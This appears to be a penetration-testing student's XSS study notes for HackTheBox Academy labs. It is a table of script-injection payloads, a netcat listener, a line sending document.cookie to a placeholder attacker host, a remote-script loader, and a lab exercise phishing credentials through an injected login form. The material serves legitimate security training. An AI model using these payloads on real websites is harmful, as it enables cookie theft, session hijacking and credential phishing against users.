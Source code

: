 # Cross-site Scripting (XSS)  

>Burp Suite Certified Practitioner (BSCP) [My Study Notes on XSS](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#cross-site-scripting)  

## Commands  

| Code | Description |
| ----- | ----- |
| **XSS Payloads** |
| `<script>alert(window.origin)</script>` | Basic XSS Payload [XSS Testing Payloads](https://academy.hackthebox.com/module/103/section/967) |
| `<script>alert(document.cookie)</script>` | To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url. |
| `<plaintext>` | Basic XSS Payload |
| `http://94.237.62.82:55501/index.php?task=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E` | Reflected XSS, which gets processed by the back-end server, and DOM-based XSS, which is completely processed on the client-side and never reaches the back-end server. |
| `document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);` | [Identify DOM-XSS in the JavaScript source of the client browser](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#identify-dom-xss)  
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<img src="" onerror=alert(document.cookie)>` | [DOM Attacks](https://academy.hackthebox.com/module/103/section/974) |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
| **Commands** |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80 ` | Start `PHP` server |


## Identify XSS  

>Simple test payload on target with no protection to identify XSS Reflection: [XSS Discovery](https://academy.hackthebox.com/module/103/section/982)  

```
<script>alert('pass')</script>
```  

![xss-identify](/images/xss-identify.png)  

## Phishing + XSS  

>[Phishing ](https://academy.hackthebox.com/module/103/section/984)  

>Try to find a working XSS payload for the Image URL form found at '/phishing' in the `http://10.129.72.106/phishing/index.php` server.
>Then use what you learned in this section to prepare a malicious URL that injects a malicious login form.
>Then visit '/phishing/send.php' to send the URL to the victim
>The victim user will log into the malicious login form. 
>If you did everything correctly, you should receive the victim's login credentials.
>Use obtained victim login gain access to '/phishing/login.php' and obtain the flag.  

>XSS Identified:

```
http://10.129.72.106/phishing/index.php?url=http://10.10.15.41/image.png'><script>alert('xss found')</script>
```  

![xss-phishing-found](/images/xss-phishing-found.png)  

